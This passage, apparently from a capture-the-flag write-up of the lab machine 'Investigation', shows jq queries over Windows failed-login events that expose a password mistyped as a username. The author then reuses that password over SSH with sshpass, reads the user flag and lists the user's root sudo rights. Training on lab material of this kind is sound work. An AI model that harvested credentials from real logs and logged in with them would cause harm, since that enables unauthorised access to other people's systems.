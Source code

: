 If I take the same look at the unsuccessful logins by changing the filter from 4624 to 4625, I’ll find three:

```

oxdf@hacky$ cat security.json | jq -r '. | select(.Event.System.EventID==4625) | .Event.EventData | .TargetDomainName + "\\" + .TargetUserName' | sort | uniq -c | sort -nr
      1 EFORENZICS-DI\lmonroe
      1 EFORENZICS-DI\hmraley
      1 \Def@ultf0r3nz!csPa$$

```

The first two match with users above, but the last one looks like a password, as if someone typed their password into the username field. This could happen when a user walks up to their computer and starts typing their password thinking they are going to unlock the computer, but they aren’t logged in for some reason.

### SSH

That password works for smorton over SSH:

```

oxdf@hacky$ sshpass -p 'Def@ultf0r3nz!csPa$$' ssh smorton@eforenzics.htb
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-137-generic x86_64)
...[snip]...
smorton@investigation:~$

```

The user flag is now available:

```

smorton@investigation:~$ cat user.txt
fe330173************************

```

## Shell as root

### Enumeration

smorton can run `/usr/bin/binary` as root:

```

smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary

```
